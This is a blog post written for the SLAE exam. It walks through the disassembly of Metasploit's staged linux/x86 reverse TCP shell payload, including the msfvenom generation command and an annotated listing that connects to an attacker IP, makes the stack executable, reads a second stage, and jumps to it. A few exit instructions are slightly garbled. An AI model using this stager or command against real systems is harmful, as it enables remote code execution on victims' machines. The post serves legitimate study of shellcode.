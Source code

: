 ```yaml
---
layout: post
title: SLAE Exam 5 Shellcode Analysis - Part 3
category: Security
tags: [slae, shell, assembly, programming]
---
```


Now, we're cooking! We previously looked at two MSF payloads, read_file and the staged version of a bind_tcp shell. Now, we will look at one of the most commonly used MSF payloads out there: the staged reverse tcp shell. I'm assuming it will be very similar to the staged bind tcp shell, but who knows. There's only one way to find out!

## Problem Statement

* Take up at least 3 shellcode samples created using Msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

I've already hyped up the fact that we'll be taking a look at msfvenom's `linux/x86/shell/reverse_tcp` payload. If you missed [part one]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-1 %}) or [part two]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-2 %}), I highly recommend going back and reading that. Once you're all caught up, rejoin us below!

#### Generating the Files

We'll quickly get started by generating our raw and disassembled files.

```bash
root@kali:~/courses/slae/exam/assignment5# msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux > staged_reverse_shell.raw

root@kali:~/courses/slae/exam/assignment5# ndisasm -b 32 staged_reverse_shell.raw > staged_reverse_shell_analyzed.nasm
```


## Analysis

It's time to dig through the assembly. My guess was right, in that this is very similar to the bind tcp shell we looked at in [part two]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-2 %}), and I'll prove it to you right... now!


#### Make the Socket

```
00000000      xor ebx,ebx             ; Clear EBX
00000002      mul ebx                 ; Clear EAX, EDX
00000004      push ebx                ; [0x0]
00000005      inc ebx                 ; set ebx to 1 (SYS_SOCKET)
00000006      push ebx                ; [0x1, 0x0]
00000007      push byte +0x2          ; [0x2, 0x1, 0x0]
00000009      mov al,0x66             ; SYSCALL(0x66) // man 2 socketcall
0000000B      mov ecx,esp             ; mov *args into ecx
0000000D      int 0x80                ; socketcall(1, *esp) -> socket(2, 1, 0) -> socket(AF_INET, SOCK_STREAM, 0) (see Assignment 1 for details)
```

This is pretty standard. We are just creating a TCP socket for use. If you have trouble understanding the comments, review parts one and two of this series. If you still have trouble, please leave a comment below!


#### Connect to Attacker

```
0000000F      test eax,eax            ; Ensure EAX is not negative
00000011      js 0x57                 ; If EAX < 0, exit
00000013      xchg eax,edi            ; Move socket fd (SOCKFD) to EDI
00000014      pop ebx                 ; Put 0x2 into ebx // [0x1, 0x0]
00000015      push dword 0x81caa8c0   ; [0x81caa8c0, 0x1, 0x0] // IP Address (192.168.202.129)
0000001A      push dword 0x5c110002   ; [0x5c110002, 0x81caa8c0, 0x1, 0x0] // sin_port and sin_family (4444, 0x0002)
0000001F      mov ecx,esp             ; ecx -> [0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000021      push byte +0x66         ; prepare for syscall
00000023      pop eax                 ; SYSCALL(0x66) // man 2 socketcall
00000024      push eax                ; [0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000025      push ecx                ; [*(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000026      push edi                ; [SOCKFD, *(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000027      mov ecx,esp             ; ecx -> [SOCKFD, *(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000029      inc ebx                 ; EBX = 0x3 (SYS_CONNECT)
0000002A      int 0x80                ; socketcall(3, [SOCKFD, *(0x5c110002, 0x81caa8c0, 0x1, 0x0)])
```

Here we tell our newly created socket to connect to our attacker's machine. In my case, I gave msfvenom no arguments, so it automatically used an RHOST value of my local IP *192.168.202.129*, and a port of *4444*. Good to know!


#### Mark Memory for Staged Shellcode

```
0000002C      test eax,eax            ; Check if return value was negative
0000002E      js 0x57                 ; If negative, jump to exit
00000030      mov dl,0x7              ; edx = 0x7
00000032      mov ecx,0x1000          ; ecx = 0x1000
00000037      mov ebx,esp             ; ebx = [SOCKFD, *(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000039      shr ebx,byte 0xc        ; align ebx to a page
0000003C      shl ebx,byte 0xc        ; by clearing last 12 bits of ebx
0000003F      mov al,0x7d             ; SYSCALL(125)
00000041      int 0x80                ; mprotect(ebx, 0x1000, 7) -> make 0x1000 bytes at the stack RWX
```

This is doing the same thing it did with the bind tcp shell. It marks a page of memory on our stack as RWX, so that we can place our staged payload there and run it.


#### Read Staged Shellcode into Memory

```
00000043      test eax,eax            ; Test for negative return code
00000045      js 0x57                 ; If negative, jump to exit
00000047      pop ebx                 ; EBX = SOCKFD // [*(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
00000048      mov ecx,esp             ; ECX -> [*(0x5c110002, ...), 0x66, 0x5c110002, 0x81caa8c0, 0x1, 0x0]
0000004A      cdq                     ; clear EDX (by extending sign bit of eax to edx)
0000004B      mov dh,0xc              ; EDX = 0xC00
0000004D      mov al,0x3              ; SYSCALL(0x3) // man 2 read
0000004F      int 0x80                ; read(SOCKFD, ECX (STACK), 0x00000C00)
```

Here, we receive our staged shellcode from the attacker's machine, and store it on the stack.


#### Jump to Staged Shellcode

```
00000051      test eax,eax            ; Test for negative return code
00000053      js 0x57                 ; If negative, jump to exit
00000055      jmp ecx                 ; If it wasn't, jump to ECX which contains our staged shellcode
```

Finally, as long as no errors have occurred, we are ready to pass execution to the stack, where our staged payload sits awaiting execution.


#### Exit Due to Failure

```
00000057      mov, 0x1                ; SYSCALL(0x1) // man 2 exit
0000005C      mov, 0x1                ; return code of 1 (error because staged shellcode didn't make it)
00000061      int 0x80                ; exit(1)
```

This section of code is mentioned throughout this payload. If at any point, a function returns a negative value in EAX, the payload will jump to this section, causing an exit with a return code of 1, indicating something went wrong.


## Wrapping Up

The `linux/x86/shell/reverse_tcp` payload was very similar to the bind_tcp payload as predicted. One of the key differences here was the fact that the reverse_tcp payload does a lot more to check for errors, which was interesting to see. In any case, I hope you learned as much as I did throughout this exercise, and I encourage you to walk through this process on a different payload. I'd love to hear about what you find or what payloads you choose to analyze! So leave a comment below, and until next time, happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
